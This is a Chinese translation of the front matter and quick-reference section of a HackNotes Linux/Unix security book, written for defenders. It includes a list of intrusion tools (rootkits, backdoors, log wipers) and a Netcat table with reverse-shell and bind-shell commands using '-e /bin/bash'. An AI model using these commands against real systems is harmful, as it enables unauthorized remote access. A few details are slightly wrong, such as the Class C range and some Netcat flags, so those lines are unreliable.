# Linux 与 Unix 安全便携参考

## 关于作者

### 尼特什·丹亚尼

尼特什·丹亚尼是 Foundstone, Inc. 的信息安全顾问。在 Foundstone 期间，尼特什参与了为多家财富 500 强公司进行的多种类型的项目，包括网络、应用程序、主机渗透和安全评估，以及安全架构设计服务。尼特什是 *HACKNOTES：网络便携参考手册*（麦格劳-希尔/奥斯本，2003 年）的联合作者，也是畅销安全书籍 *Hacking Exposed：网络安全秘密与解决方案* 最新版的作者（麦格劳-希尔/奥斯本，2003 年）。他还在许多技术出版物上发表了文章，例如 *Linux 期刊*。除了著书立说，尼特什还参与并教授 Foundstone 的“终极黑客：专家级”和“终极黑客”安全课程。

在加入 Foundstone 之前，尼特什曾在安永 LLP 信息安全服务部担任顾问，在那里他为 IT 领域的许多重要公司进行攻击和渗透审查。他还为安永 LLP 安全解决方案部门开发了专有的网络扫描工具。

尼特什毕业于普渡大学，拥有计算机科学学士学位和硕士学位。在普渡大学期间，他参与了 CERIAS 团队（教育与信息安全研究中心）的众多研究项目。他还负责创建内容并教授 C 和 C++ 编程课程，这些课程作为由 IBM、AT&T 和 Intel 赞助的项目的一部分进行远程授课。

尼特什继续积极参与开源项目、系统编程和 Linux 内核开发。可以通过 books@dhanjani.com 联系到他。

## 关于技术审稿人

### 罗伯特·克卢斯顿

罗伯特·克卢斯顿是 Foundstone 的 IT 安全顾问。他在系统管理、网络安全和 Web 生产工程方面拥有超过六年的经验。罗伯特最初加入 Foundstone 是为了设计和保护 Foundstone 的网站，现在则专注于向 Foundstone 的客户提供这些服务。在加入 Foundstone 之前，罗伯特曾为一家互联网服务提供商担任系统管理员。他的职责包括部署、维护和保护关键业务系统，包括 Web 服务器、路由器、DNS 服务器、邮件服务器以及额外的互联网交付设备/系统。在加入 Foundstone 之前，罗伯特也曾短暂地作为独立承包商，专门从事 Perl/PHP Web 开发。罗伯特持有 Windows NT 的 MSCE 认证。

## 致谢

如果没有许多人的帮助，本书将无从谈起。首先，我要感谢 HackNotes 系列编辑 Mike Horton，他给了我写这本书的机会。还要感谢 McGraw-Hill/Osborne 团队的不懈努力，包括 Jane Brownlow、Athena Honore、Betsy Manini 和 Robert Campbell。

特别感谢 Foundstone 的 Robert Clugston，他负责审阅本书的技术内容。

感谢我的妻子 DeepTI，在我写这本书期间给予我的巨大帮助。

## HACKNOTES：系列简介

McGraw-Hill/Osborne 为安全专业人士创建了一个全新的便携式参考书系列。这些快速学习书籍页数适中，旨在成为真正便携的参考工具。

HackNotes 系列的目标是

- 提供高质量的浓缩安全参考信息，易于访问和使用。
- 通过展示黑客和犯罪分子如何利用已知方法入侵系统以及最佳实践来防守黑客攻击，教育读者如何保护网络或系统。
- 帮助新接触每本书所涵盖安全主题的人快速上手，并提供一个简洁的知识单一来源。为此，你可能会发现自己需要反复查阅它。

HackNotes 系列的书设计为可以轻松随身携带或放在电脑包中，不会增加太多重量，在你使用它们时也不会引起不必要的注意。这些书尽可能多地使用图表、表格和项目符号列表，只有在截图对于阐述主题要点至关重要时才使用截图。最重要的是，为了使这些方便的便携式参考书不让你在忙碌的一天中被不必要的措辞所困扰，我们保持了写作清晰、简洁且切中要点。

无论你是信息安全领域的新手，需要有用的起点和必要事实而不必搜索 400 多页的内容；还是经验丰富的专业人士，知道使用手册作为外部大脑的价值，其中包含大量有用的列表、表格和具体细节以便快速确认；或者是将其作为不太熟悉的网络安全主题的方便参考，HackNotes 系列都会帮助你到达你想要的地方。

### 关键系列元素和图标

我们尽可能逻辑地组织和呈现这本书。采用了紧凑的格式，并添加了页标签以标记主要标题主题。由于参考中心包含你希望快速轻松访问的信息和表格，为了方便起见，它被战略性地放置在书中间的蓝色页面上。

#### 视觉提示

全书使用的图标使导航变得非常容易。每种黑客技术或攻击都用特殊的剑图标突出显示。


此图标代表黑客技术或攻击

获取黑客用于入侵易受攻击系统的各种技术和战术的详细信息。

每种黑客技术或攻击在可能的情况下都有相应的防御措施，这些措施也有其特殊的盾牌图标。


此图标代表对抗黑客技术和攻击的防御步骤

获取如何防御所示黑客技术或攻击的简洁详细信息。

HackNotes 设计中还有其他特殊元素，包含一些信息片段，与正文区分开来以吸引你的注意力。


这个“i”图标代表需要记住的信息提示，在阅读特定章节内容时应牢记的知识。


这个火焰图标代表热门项目或重要问题，为了避免各种陷阱，不应忽略这些内容。

## 命令与代码列表

全书中，用户的命令输入均以**粗体**显示，例如：

```
(bash)# whoami
root
```

此外，在常规文本中出现的常见 Linux 和 Unix 命令及参数，均使用等宽字体以示区分，例如：`whoami`。

## 期待您的反馈

我们衷心感谢您对我们书籍的兴趣。我们希望您能发现它们既实用又有趣，并欢迎您提供关于如何改进它们的任何反馈。HackNotes 系列书籍的设计初衷正是为了满足您的需求。请访问 **http://www.hacknotes.com** 获取更多关于该系列的信息，并欢迎将您的评论和建议发送至 **feedback@hacknotes.com**。

## 引言

本书将教您黑客是如何思考的，以便您能够保护您的 Unix 和 Linux 系统免受他们侵害。没有其他方式可以学会如何防止您的系统被入侵。为了阻止最复杂黑客的攻击，您需要理解他们的思维过程、技术和战术。

Unix 和 Linux 操作系统的强大特性是一把双刃剑。在大多数情况下，操作系统内核源代码是免费提供的，管理员甚至可以深入修改操作系统内部结构以满足其需求。但这种强大且灵活的 Unix 和 Linux 性质包含了大量的复杂性，这增加了可能的配置错误几率，从而轻易使系统面临风险。此外，还请考虑到如今可用的各种 Unix 和 Linux 发行版本。每个发行版都附带其自身的一套安全策略和配置。例如，一些发行版默认关闭一组远程服务，而另一些则开启所有可能的配置了最弱可能策略的服务。黑客们深知管理 Unix 和 Linux 主机的行政复杂性，并且确切知道如何利用它们。本书将通过揭示最狡猾黑客战术的细节令您惊叹，并教您如何防御它们。

不要担心黑客获取本书中呈现的内容。他们早已知晓。本书的意图是揭示当今黑客使用的战术，以便您学习如何保护系统免受攻击。一旦您理解了黑客的思维方式和他们用于入侵系统的多种不同方法，胜算就会站在您这一边。

## 本书组织结构

本书分为四个主要部分：

### 第一部分：黑客技术与防御

本书第一部分遵循当今黑客正在使用的常见黑客方法论。本章还提出了针对这些章节中描述的所有黑客技术的防御措施。

- **第 1 章** 我们从理解黑客方法论中的第一个逻辑步骤开始：足迹追踪。本章将教您黑客如何从搜索引擎、注册商记录、DNS 记录等获取公开可用的信息。一旦黑客从公开来源获取了所有可能的信息，他们就会转向实际的网络和主机识别以及扫描。
- **第 2 章** 本章教您如何确定网络中哪些主机是存活的，以及它们开放了哪些端口。讨论了各种类型的端口扫描方法，以及操作系统识别技术和工具。
- **第 3 章** 学习黑客如何识别远程主机上运行的应用程序和服务。本章展示了潜在入侵者用于枚举用户名和远程服务的许多不同工具和方法。
- **第 4 章** 本章揭示了黑客用于获取易受攻击主机访问权限的确切工具和战术。学习黑客正在使用的最狡猾技术，如暴力破解、嗅探、中间人攻击、密码破解、端口重定向、针对配置错误的利用、缓冲区溢出以及许多其他软件漏洞。
- **第 5 章** 通常，利用特定漏洞会使黑客获得非特权用户或系统帐户的访问权限。在这种情况下，黑客下一个逻辑步骤是获取超级用户（root）权限。本章展示了黑客尝试获取更高权限的许多不同方式。
- **第 6 章** 一旦主机被入侵，黑客希望隐藏其存在，并确保对主机的持续和特权访问。本章展示了黑客如何通过清理重要日志文件来隐藏其踪迹，以及黑客如何在被入侵的主机上安装木马、后门和根套件。

### 第二部分：主机加固


## 第二部分

本书第二部分关注系统管理员可以采取的许多步骤，以加固默认系统配置和策略。

### 第 7 章
本章讨论了与加固默认应用程序和服务器配置相关的重要配置问题。强烈建议所有系统管理员考虑本章提出的建议，以防止入侵者利用薄弱的系统策略和配置。

### 第 8 章
恶意用户和黑客经常利用不当的用户和文件系统权限。本章将向您介绍 Unix 和 Linux 文件权限，并教您为防止因糟糕的用户和文件系统权限而导致的入侵需要采取的确切步骤。

### 第 9 章
每个系统管理员都应强制实施正确的系统事件日志记录。本章教您如何启用和配置有用的日志服务，以及如何正确设置日志文件的权限以防止其被篡改。保持最新的安全补丁更新也非常重要，本章提供了获取这些补丁的供应商网站有用链接。

## 第三部分：专题

本书第三部分汇总了一些令人兴奋的话题，从为 Nessus 扫描器编写插件，到无线黑客，再到使用 Zaurus PDA 进行黑客攻击。

### 第 10 章
Nessus 是当今最受欢迎的漏洞扫描工具之一。它也是免费的，在设计上非常模块化。本章将教您如何使用 `NASL`（Nessus 攻击脚本语言）为 Nessus 扫描器编写自定义漏洞检查插件。

### 第 11 章
学习黑客如何渗透 `802.11` 无线网络。本章教您 `WEP` 协议的弱点，并介绍黑客用于利用无线网络的工具。此外，本章还提供了更好地保护无线网络的建议和意见。

### 第 12 章
Sharp Zaurus PDA 设备运行 Linux 操作系统的一个嵌入式版本。本章展示了 Zaurus PDA 可用的各种安全工具，以及黑客如何轻松使用它们渗透无线网络。

## 参考中心

本节印刷在蓝色页面上，并放置在书的中央以便于访问。如果您需要快速获取关于常见命令、常见端口、在线资源、IP 编址以及有用 Netcat 命令等主题的信息，请记得翻开书本到这一章节。此外，本节还提供了 ASCII 值和 HTTP 响应表。

## 致读者

这本书的制作投入了大量的努力。我希望您发现其中包含的内容信息丰富且有用。最重要的是，我希望您利用本书中呈现的信息行善，保护并安全您的系统和网络，免受最复杂黑客的侵害。

## 参考中心目录

- 常见命令 . RC 2
- 常见端口 . RC 7
- IP 编址 . RC 9
  - 点分十进制表示法 . RC 9
  - 类别 . RC 9
  - 子网掩码 . RC 11
  - CIDR（无类别域间路由） . RC 12
  - 环回 . RC 12
  - 私有地址 . RC 12
  - 协议头部 . RC 12
- 在线资源 . RC 15
  - 黑客工具 . RC 15
  - Web 资源 . RC 18
  - 邮件列表 . RC 19
  - 会议和活动 . RC 19
- 有用的 Ncstat 命令 . RC 20
- ASCII 表 . RC 22
- HTTP 代码 . RC 28
- 重要文件 . RC 30

## 常用命令

以下是大多数 Unix 和 Linux 发行版基础安装中最常见的命令列表。有关特定命令的更多信息，请输入 `man` `command` 查看其手册页。

| 命令 | 描述 |
| :--- | :--- |
| `alias` | 设置和查看命令别名。 |
| `arch` | 打印机器架构。 |
| `awk` | 模式扫描和处理语言。 |
| `bash` | Bourne Again Shell。 |
| `bg` | 将前台运行的进程移至后台。 |
| `biff` | 在有邮件到达时通知用户。 |
| `cat` | 连接并打印文件。 |
| `cd` | 更改目录。 |
| `chage` | 更改用户密码过期信息。 |
| `chgrp` | 更改组所有权。 |
| `chmod` | 更改文件权限。 |
| `chown` | 更改文件和组的所有者。 |
| `chroot` | 使用特殊的根目录运行命令。 |
| `chsh` | 更改登录 Shell。 |
| `clear` | 清除终端屏幕。 |
| `cp` | 复制文件和目录。 |
| `crontab` | 维护 crontab 文件。 |
| `csh` | C shell。 |
| `cut` | 从文件每行中删除指定部分。 |
| `date` | 打印或设置系统日期和时间。 |
| `dd` | 转换并复制文件。 |
| `df` | 打印文件系统磁盘空间使用情况。 |
| `diff` | 查找文件之间的差异。 |
| `dig` | DNS（域名系统）查询工具。 |
| `dmesg` | 打印系统缓冲区中的诊断消息。 |
| `dnsdomainname` | 显示系统的 DNS（域名系统）域名。 |
| `domainname` | 显示系统的 NIS（网络信息系统）或 YP（黄页）名称。 |
| `du` | 估算文件空间使用情况。 |
| `echo` | 显示一行文本。 |
| `env` | 在修改后的环境中运行程序。 |
| `false` | 以指示失败的状态码退出。 |
| `fdisk` | 磁盘分区表操作工具。 |
| `fg` | 将后台运行的进程移至前台。 |
| `file` | 确定文件类型。 |
| `find` | 在目录层次结构中搜索文件。 |
| `free` | 显示系统空闲和已使用的内存量。 |
| `ftp` | FTP 客户端。 |
| `fuser` | 识别使用文件或套接字的进程。 |
| `gcc` | GNU C 和 C++ 编译器。 |
| `grep` | 打印匹配给定模式的行。 |
| `groupadd` | 创建新组。 |
| `groupdel` | 删除组。 |
| `groupmod` | 修改组。 |
| `groups` | 打印用户所属的所有组。 |
| `gunzip` | 解压缩使用 Lempel Ziv 编码压缩的文件。 |
| `gzip` | 使用 Lempel Ziv 编码压缩文件。 |
| `host` | DNS（域名系统）查询工具。 |
| `hostname` | 显示或设置系统主机名。 |
| `id` | 打印实际和有效的用户 ID 及组 ID。 |
| `ifconfig` | 配置网络接口。 |
| `kill` | 终止进程。 |
| `ksh` | Korn shell。 |
| `last` | 显示最后登录用户的列表。 |
| `lastlog` | 显示账户的最后登录时间。 |
| `ln` | 在文件之间创建链接。 |
| `ls` | 列出目录内容。 |
| `mail` | 发送和接收邮件。 |
| `man` | 格式化并显示手册页。 |
| `mesg` | 控制对终端的写入访问。 |
| `mkdir` | 创建目录。 |
| `more` | 分屏显示文件内容。 |
| `mount` | 挂载文件系统。 |
| `mv` | 移动和重命名文件和目录。 |
| `netstat` | 打印网络连接、路由表、接口统计、伪装连接和多播成员资格。 |
| `nice` | 以修改后的调度优先级运行程序。 |
| `nslookup` | 查询互联网名称服务器。 |
| `passwd` | 更改登录和密码属性。 |
| `ping` | 向网络主机发送 ICMP ECHO_REQUEST。 |
| `ps` | 报告进程状态。 |
| `pwd` | 打印当前工作目录的名称。 |
| `quota` | 显示磁盘使用量和配额限制。 |
| `quotaoff` | 关闭文件系统配额。 |
| `quotaon` | 开启文件系统配额。 |
| `repquota` | 总结文件系统的配额。 |
| `rm` | 删除文件或目录。 |
| `rmdir` | 删除空目录。 |
| `route` | 显示或操纵系统路由表。 |
| `rpcinfo` | 报告 RPC（远程过程调用）信息。 |
| `sed` | 流编辑器。 |
| `setquota` | 设置磁盘配额。 |
| `showmount` | 显示 NFS（网络文件系统）服务器的挂载信息。 |
| `shutdown` | 关闭系统。 |
| `sleep` | 延迟指定时间。 |
| `sort` | 对文本文件中的行进行排序。 |
| `strace` | 跟踪系统调用和信号。 |
| `strings` | 打印文件中的可打印字符。 |
| `su` | 使用替代用户和组 ID 运行 shell。 |
| `tail` | 输出文件的末尾部分。 |
| `tar` | 归档工具。 |
| `tcsh` | 具有文件名补全和命令编辑功能的 C shell。 |
| `telnet` | Telnet 客户端。 |
| `tftp` | TFTP（简单文件传输协议）客户端。 |
| `traceroute` | 打印数据包到达目标主机所经过的路由。 |
| `true` | 以指示成功的状态码退出。 |
| `umount` | 卸载文件系统。 |
| `uname` | 打印系统信息。 |
| `useradd` | 创建新用户。 |
| `userdel` | 删除用户账户。 |
| `uptime` | 打印系统已运行时长。 |
| `vi` | 文本编辑器。 |
| `w` | 显示已登录用户及其正在执行的操作。 |
| `wall` | 向每个用户的终端发送消息。 |


| `wc` | 打印文件中的字节数、单词数和行数。 |
| `whereis` | 定位命令的二进制文件、源文件和手册页文件。 |
| `which` | 显示命令的完整路径。 |
| `who` | 显示已登录用户。 |
| `whoami` | 打印有效用户 ID。 |
| `write` | 向另一个用户发送消息。 |
| `ypdomainname` | 显示或设置系统的 NIS（网络信息系统）或 YP（黄页）域名。 |


## 常用端口

以下是与最常用的 Unix 和 Linux 服务相对应的端口名称和服务列表。

如需更全面的列表，请查看 `/etc/services` 文件。

| 服务 | 端口 |
| :--- | :--- |
| Echo | 7 |
| Daytime | 13 |
| qotd (每日一句) | 17 |
| FTP-data | 20 |
| FTP | 21 |
| SSH | 22 |
| Telnet | 23 |
| SMTP（简单邮件传输协议） | 25 |
| Time server | 37 |
| Whois | 43 |
| DNS（域名系统） | 53 |
| TFTP（简单文件传输协议） | 69 |
| Finger | 79 |
| HTTP（超文本传输协议） | 80 |
| POP2（邮局协议 2） | 109 |
| POP3（邮局协议 3） | 110 |
| Portmapper | 111 |
| Ident | 113 |
| NNTP（网络新闻传输协议） | 119 |
| NTP（网络时间协议） | 123 |
| Samba | 137-139 |
| IMAP2（互联网消息访问协议） | 143 |
| SNMP（简单网络管理协议） | 161 |
| BGP（边界网关协议） | 179 |
| IMAP3（互联网消息访问协议） | 220 |
| LDAP（轻量级目录访问协议） | 389 |
| HTTPS（安全超文本传输协议） | 443 |
| rlogin | 513 |
| rsh | 514 |
| Line printer (lpr) spooler | 515 |
| Talk | 517 |
| Time server | 525 |
| NNTPS（安全网络新闻传输协议） | 563 |
| IPP（互联网打印协议） | 631 |
| LDAPS（安全轻量级目录访问协议） | 636 |
| IMAPS（安全互联网消息访问协议） | 993 |
| POP3S（安全邮局协议） | 995 |
| NFS（网络文件系统） | 2049 |
| MySQL | 3306 |
| VNC（虚拟网络计算） | 5800+5900+ |
| X11 | 6000–6063 |
| XFS（X 字体服务器） | 7100 |

## IP 编址

本节提供了关于 IP 编址主题的简要详细信息，例如 IP 地址分类以及 IP、TCP 和 UDP 的协议头部。

### 点分十进制表示法

IP 地址长度为 32 位，例如：

```
11000000 10101000 00000001 00000001
```

为了便于人类阅读，IP 地址采用点分十进制表示法，例如：

```
192.168.1.1
```

### 类别

IP 地址已被划分为五个不同的类别，用于分配不同大小的网络。这些类别在以下标题下表示。

#### A 类

A 类 IP 地址已分配给拥有极少网络但每个网络上主机数量非常多的大型组织。请注意，A 类 IP 地址不再积极分配。

| 0 | 8 | 31 |
| :---: | :---: | :---: |
| 0 | 网络 | 主机 |

- **第一字节** 范围从 1 到 126。第一位始终为 0。
- **最大网络数** 网络地址由第一个字节表示。因此，2ⁿ⁻¹−2 = 126 是可能的 A 类网络的最大数量。
- **每个网络的最大主机数** 主机由最后三个字节表示。因此，2²⁴−2 = 16,777,214 个主机是每个网络可能的主机数。大多数组织的主机数量远未达到此数字，因此大多数 A 类 IP 地址通常被浪费。

#### B 类

B 类地址分配给由大量网络和主机组成的组织。因此，许多 ISP 被分配了 B 类地址。

| 0 | 1 | 1 | 6 | 31 |
|---|---|---|---|---|
| 1 | 0 | 网络 |  | 主机 |

- **第一个八位字节**：范围从 128 到 191。前两个比特位是 1 和 0。
- **最大网络数**：网络地址由第一个和第二个八位字节表示。因此，$2^{14}$ = 16,384 个 B 类网络是可能的。
- **每个网络的最大主机数**：主机由最后两个八位字节表示。因此，$2^{16}$ - 2 = 65,534 个主机是每个网络中可能的数量。

#### C 类

C 类地址用于由每个网络中少量主机组成的组织。

| 0 | 1 | 2 | 24 | 31 |
|---|---|---|---|---|
| 1 | 1 | 0 | 网络 | 主机 |

- **第一个八位字节**：范围从 192 到 233。前三个比特位是 1、1 和 0。
- **最大网络数**：网络地址由第一、第二和第三个八位字节表示。因此，$2^{21}$ = 2,097,152 个 C 类网络是可能的。
- **每个网络的最大主机数**：主机由最后一个八位字节表示。因此，$2^{8}$ - 2 = 254 个主机是每个网络中可能的数量。

#### D 类

D 类是一个保留的类别，旨在用于向一组主机发送组播消息。

| 0 | 1 | 2 | 3 | 31 |
|---|---|---|---|---|
| 1 | 1 | 1 | 组播地址 |  |

- **第一个八位字节**：范围从 224 到 239。前四个比特位是 1、1、1 和 0。

#### E 类

E 类是一个保留的类别。互联网上没有分配属于此类别的 IP 地址。

| 0 | 1 | 2 | 3 | 4 | 31 |
|---|---|---|---|---|---|
| 1 | 1 | 1 | 1 | 保留 |  |

- **第一个八位字节**：范围从 240 到 255。前五个比特位是 1、1、1、1 和 0。

### 子网掩码

网络地址和主机地址通过子网掩码的使用来识别。*子网掩码* 是一组比特位，匹配给定地址的网络部分。例如，以下是 B 类 IP 地址的网络掩码：

```
11111111   11111111   00000000   00000000
```

上述掩码在点分十进制表示法中为 255.255.0.0。

### CIDR（无类域间路由）

由于互联网的迅猛发展，刚刚列出的五个 IP 类别不足以容纳所需的许多网络方案。

为满足这一日益增长的需求而设计的 CIDR 地址使用以下表示法：

```
`前缀`/掩码
```

其中 *前缀* 是 IP 地址前缀，*掩码* 是网络掩码的长度。例如：

```
`192.168.1.0/24`
```

这里，前缀长度为 24 位，而后缀是剩余的 8 位。因此，此 CIDR 类别将包括以下 IP 地址：192.168.1.0–192.168.1.255。

### 回环

以下范围被称为“回环”范围：

```
`127.0.0.0/8`
```

此范围用于指定本地主机的回环地址。发送到此范围内地址的任何数据包都将返回到该主机。请注意，目标为回环范围内 IP 地址的数据包不会传播到硬件网络设备，因此永远不会被放置在物理网络线上。

### 私有地址

互联网号码分配机构（IANA）为私有内部网络保留了以下三个 IP 块：

```
`10.0.0.0–10.255.255.255`  (CIDR 表示法: `10.0.0.0/8`)
`172.16.0.0–172.31.255.255` (CIDR 表示法: `172.16.0.0/16`)
`192.168.0.0–192.168.255.255` (CIDR 表示法: `192.168.0.0/16`)
```

### 协议头部

RFC（请求意见稿）文档提供了关于 TCP/IP 协议实现的详细信息。这些文档包含协议头部信息，此处列出了一些示例。

### IP（互联网协议）头部

以下表示 IP 头部的布局。头部的顶部数字每个代表一个字节。



通常，IP 头部不包含选项字段，因此长度为 20 字节。当存在选项字段时，其实际长度由总长度字段表示，该字段包含整个数据包（头部和数据）的长度。更多细节请参阅 RFC 791：[http://www.faqs.org/rfcs/rfc791.html](http://www.faqs.org/rfcs/rfc791.html)。

### TCP（传输控制协议）头部


每个 TCP 数据包都封装在 IP 数据包的数据字段内，该字段紧随 IP 头部之后。以下表示 TCP 头部的布局。请注意，头部的顶部数字每个代表一个字节。



更多细节请参阅 RFC 793：[http://www.faqs.org/rfcs/rfc793.html](http://www.faqs.org/rfcs/rfc793.html)。

### UDP（用户数据报协议）头部

与 TCP 类似，每个 UDP 数据包也封装在 IP 头部的数据字段内。以下表示 UDP 头部的布局。头部的顶部数字每个代表一个字节。



更多细节请参阅 RFC 768：http://www.faqs.org/rfcs/rfc768.html。

### 在线资源

除了书中提到的各种在线资源外，本节还提供了指向其他资源的指针，这些资源可用于了解安全领域的最新动态。

> 记得检查 <http://www.hacknotes.com/> 以获取最新的安全资源。

#### 黑客工具

下表列出了当今黑客最常用的黑客工具。本表中提到的大多数工具都在本书第一部分中使用。还提供了可以从其中下载这些工具的 URL。

| 名称 | 描述 | 位置 |
|:---|:---|:---|
| Aircrack | 流行的 WEP 破解器 (802.11b) | <http://airsnort.shmoo.com/> |
| Adore | 后门 | <http://www.team-teso.net/releases.php> |
| Amap | 识别远程应用程序 | <http://www.tcr.org/releases.php> |
| Cheops | 基于 GUI 的工具，用于识别网络上主机的信息 | <http://www.marko.net/cheops/> |
| Desproxy | 通过 Web 代理隧穿 TCP 流量的命令行工具 | <http://desproxy.sourceforge.net/> |
| Dsniff | 网络嗅探工具套件 | <http://monkey.org/~dugsong/dsniff/> |
| Ethereal | 基于 GUI 的网络嗅探器 | <http://www.ethereal.com/> |
| Etercap | 基于 Ncurses 的网络嗅探器 | <http://etercap.sourceforge.net/> |
| Fake-IP | 在 802.11 网络上执行拒绝服务攻击 | <http://www.loud-fat-bloke.co.uk/w80211.html> |
| Firewall | 类似于 traceroute 的工具，用于确定网关访问控制列表 | <http://www.packetfactory.net/projects/firewall/> |
| Fragroute | 拦截、修改和重写网络流量 | <http://www.monkey.org/~dugsong/fragroute/> |
| Hping2 | 命令行 TCP/IP 数据包组装器和分析器 | <http://www.hping.org/> |
| 名称 | 描述 | 位置 |
|:-------|:--------------|:-----------------|
| Hunt | 执行 TCP 劫持 | http://lin.fsld.cvut.cz/-kra/index.html#HUNT |
| Hydra | 主动密码暴力破解器 | http://www.thc.org/releasess.php |
| John | 被动密码破解器 | http://www.openwall.com/john/ |
| Kismet | 识别区域内无线网络的嗅探器 | http://www.kismetwireless.net/download.shtml |
| Knark | Rootkit | http://www.packetstormsecurity.org/ |
| Linux Root Kit (LRK) | Rootkit | http://www.packetstormsecurity.org/ |
| Loki2 | 后门 | http://www.phrack.com/show.php?p=51&a=6 |
| Nemesi s | 命令行网络数据包注入套件 | http://www.packetfactory.net/projects/nemesi s/ |
| Nessus | 漏洞扫描器 | http://www.nessus.org/ |
| Netcat | 在网络间读取和写入数据。支持 TCP 和 UDP 协议。 | http://www.atstake.com/research/tools/network_utilities/ |
| Ngrep | 类似于 grep 命令，但用于分析网络数据包。 | http://www.packetfactory.net/projects/ngrep/ |
| Nikto | Web 服务器和 Web 应用程序漏洞扫描器 | http://www.cirt.net/code/nikto.shtml |
| Nmap | 端口扫描器 | http://www.insecure.org/nmap/ |
| Openssl | 建立 SSL 连接 | http://www.openssl.org/ |
| Snmpwalk | SNMP 查询工具 | http://www.net-snmp.org/ |
| Snort | 网络嗅探器和入侵检测系统 | http://www.snort.org/ |
| Spike Proxy | HTTP 和 HTTPS 代理 | http://www.immunitysec.com/spikeproxy.html |
| Stunnel | SSL 封装器 | http://www.stunnel.org/ |
| Tcpdump | 命令行嗅探器 | http://www.tcpdump.org/ |
| Tormkit | Rootkit | http://www.packetstormsecurity.org/ |

#### 在线资源 RC 17

| 名称 | 描述 | 位置 |
| :--- | :--- | :--- |
| Wget | 命令行 HTTP、HTTPS 和 FTP 客户端 | http://wget.sunsite.dk/ |
| Wlan-Jack | 对 802.11 网络执行拒绝服务攻击 | http://802.11ninja.net/ |
| Xkey | 记录远程 X 会话的按键 | http://packetstormsecurity.org/ |
| Xprobe2 | 使用 ICMP 数据包进行操作系统指纹识别 | http://www.sys-security.com/html/tools/tools.html |
| Xremote | 向远程 X 会话发送鼠标和键盘事件 | http://www.infa.abo.fi/~chakie/xremote/ |
| Xscan | 记录远程 X 会话的按键 | http://packetstormsecurity.org/ |
| Xwatchwin | 监视远程 X 客户端 | http://packetstormsecurity.org/ |
| Vnccrack | 破解和暴力破解 VNC 密码 | http://www.phenoelit.de/vnccrack/ |
| Whisker | Web 服务器和 Web 应用程序漏洞扫描器 | http://www.wiretrip.net/rfp1/doc.asp/i2/d21.htm |
| Zap3 | 日志擦除器 | http://www.packetstormsecurity.org/ |
| Zbedee | 创建安全的 TCP 和 UDP 隧道 | http://www.winton.org.uk/zbedee/ |

#### Web 资源

下表提供了最受欢迎的安全相关 Web 门户的位置。经常访问这些资源是个好主意，以便跟上最新的安全新闻。

| 描述 | 位置 |
| :--- | :--- |
| 新闻、文章、邮件列表、漏洞和漏洞利用数据库 | http://securityfocus.com/ |
| 新闻、工具、公告和漏洞利用 | http://packetstormsecurity.nl/ |
| 工具、文章和链接 | http://insecure.org/ |
| CERT 协调中心：漏洞事件、安全实践、统计数据和培训 | http://www.cert.org/ |
| CVE（通用漏洞披露） | http://www.cve.mitre.org/ |


| SANS（系统管理、审计、网络、安全）学院 | `http://www.sans.org/` |

| CIAC（计算机事件通知能力） | `http://www.ciac.org/ciac/` |

| 工具和论文 | `http://www.packetfactory.net/` |

| 文章、公告、邮件列表和工具 | `http://attrition.org/` |

| Phrack 杂志 | `http://phrack.com/` |

| 2600：黑客季刊 | `http://www.2600.com/` |

| 讨论论坛、链接和下载 | `http://www.antionline.com/` |

| 漏洞披露列表 | `http://www.vulnwatch.org/` |

| 文章和各种邮件列表归档 | `http://www.neohapsis.com/` |

| 新闻、分析和评估 | `http://internetssecuritynews.com/` |

| CERIA（信息与安全保障研究中心） | `http://www.cerias.purdue.edu/` |

| 新闻和文章 | `http://www.hideway.net/` |

## 邮件列表

下表提供了热门安全邮件列表的指针。订阅这些列表是个好主意，因为它们会及时发布最新的公告和漏洞信息。

| 描述 | 资源 |
| :--- | :--- |
| Bugtraq、渗透测试、Web 应用程序安全以及许多其他列表 | `http://securityfocus.com/archive` |
| CERT 公告邮件列表 | `http://www.cert.org/contact_cert/certmailist.html` |
| SANS（系统管理、审计、网络、安全）新闻通讯 | `http://sans.org/sansnews` |

## 会议和活动

安全会议在全世界各地的各种地点举行，由该领域的专家展示计算机安全领域的最新动态。下表列出了流行的安全会议。

| 描述 | 资源 |
| :--- | :--- |
| Blackhat | `http://www.blackhat.com/` |
| DEF CON | `http://www.defcon.org/` |
| SANS（系统管理、审计、网络、安全） | `http://www.sans.org/` |
| CSI（计算机安全协会） | `http://www.gocsi.com/` |
| RSA | `http://www.rsasecurity.com/company/events/index.html` |

## 有用的 NETCAT 命令

Netcat 是一个命令行工具，使用 TCP 和 UDP 协议在网络中读写数据。由于它能执行许多不同的功能，它被称为“网络瑞士军刀”。下表提供了最有用的 Netcat 命令的简明使用指南。

Netcat 默认使用 TCP 协议。可以使用 `-u` 标志与下表中许多命令配合使用，以使 Netcat 使用 UDP 代替。

| 描述 | 命令 |
| :--- | :--- |
| 连接到远程主机上的端口 | `nc remote_host <port>` |
| 连接到远程主机上的多个端口 | `nc remote_host <port>...<port>` |
| 例如： | `nc www.somecompanyasanexample.com 21 25 80` |
| 监听端口以接受传入连接 | `nc -v -l -p <port>` |
| 连接远程主机并提供 bash shell | `nc remote_ip <port> -e /bin/bash` |
| 请注意，Netcat 默认不支持 -e 标志。要使 Netcat 支持 -e 标志，必须使用 DGA_PING_SECURITY_HOLE 选项重新编译。 |  |
| 监听端口，连接时提供 bash shell | `nc -V -l -p <port> -e /bin/bash` |
| 请注意，Netcat 默认不支持 -e 标志。要使 Netcat 支持 -e 标志，必须使用 DGA_PING_SECURITY_HOLE 选项重新编译。 |  |
| 端口扫描远程主机 | `nc -v -z remote_host <port>--<port>` |
| 使用 -l 标志设置延迟间隔： | `nc -1 <seconds> -v -z remote_host <port>--<port>` |
| 将命令输出管道传输到 netcat 请求 | `<command> \| nc remote_host <port>` |
| 例如： | `echo "GET / HTTP/1.0<br>[enter]<br>[enter]<br>*" \| nc www.somecompanyasanexample.com 80` |
| 使用源路由连接到远程主机上的端口 | `nc -G <gateways> remote_host <port>` |
